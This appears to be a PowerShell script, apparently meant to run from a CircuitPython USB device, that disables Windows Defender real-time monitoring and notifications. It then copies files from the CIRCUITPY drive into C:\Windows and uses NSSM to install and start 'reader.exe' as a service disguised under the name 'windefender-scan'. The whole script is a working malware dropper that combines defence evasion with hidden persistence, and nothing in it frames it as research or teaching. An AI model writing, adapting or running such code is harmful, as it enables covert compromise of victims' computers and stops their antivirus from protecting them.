 # Function to log messages to the console
function Log-Message {
    param (
        [string]$message
    )
    $timestamp = Get-Date -Format "yyyy-MM-dd HH:mm:ss"
    $logEntry = "$timestamp - $message"
    Write-Host $logEntry
}

# Log start of script
Log-Message "Script started."

# Disable Enhanced Notifications
try {
    Log-Message "Disabling Enhanced Notifications..."
    Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows Defender Security Center\Notifications" -Name DisableEnhancedNotifications -Value 1
    Log-Message "Enhanced Notifications disabled."
} catch {
    Log-Message "Error disabling Enhanced Notifications: $_"
}

# Disable Real-Time Monitoring
try {
    Log-Message "Disabling Real-Time Monitoring..."
    Set-MpPreference -DisableRealtimeMonitoring $true
    Log-Message "Real-Time Monitoring disabled."
} catch {
    Log-Message "Error disabling Real-Time Monitoring: $_"
}

# Find the CIRCUITPY drive
Log-Message "Searching for CIRCUITPY drive..."
$driveLetter = Get-WmiObject Win32_LogicalDisk | Where-Object { $_.VolumeName -eq "CIRCUITPY" } | Select-Object -ExpandProperty DeviceID

if ($driveLetter) {
    Log-Message "CIRCUITPY drive found: $driveLetter."
    $sourcePath = Join-Path $driveLetter "data"
    $destinationPath = "C:\Windows"

    # Check if the source path exists
    if (Test-Path $sourcePath) {
        Log-Message "Source path exists: $sourcePath. Copying files..."
        Copy-Item -Path "$sourcePath\*" -Destination $destinationPath -Recurse -Force
        Log-Message "Files copied to $destinationPath."
        
        Set-Location -Path $destinationPath

        # Define NSSM path and service parameters
        $nssmPath = Join-Path $destinationPath "nssm.exe"
        $serviceName = "windefender-scan"
        $exePath = Join-Path $destinationPath "reader.exe"

        # Check if NSSM and reader.exe exist
        if ((Test-Path $nssmPath) -and (Test-Path $exePath)) {
            Log-Message "nssm.exe and reader.exe found. Installing service..."
            try {
                & $nssmPath install $serviceName $exePath
                & $nssmPath start $serviceName
                Log-Message "Service installed and started successfully."
            } catch {
                Log-Message "Error installing or starting the service: $_"
            }
        } else {
            Log-Message "Error: nssm.exe or reader.exe not found in $destinationPath."
        }
    } else {
        Log-Message "Error: Source folder 'data' not found on CIRCUITPY drive."
    }
} else {
    Log-Message "Error: CIRCUITPY drive not found."
}

# Log end of script
Log-Message "Script completed."
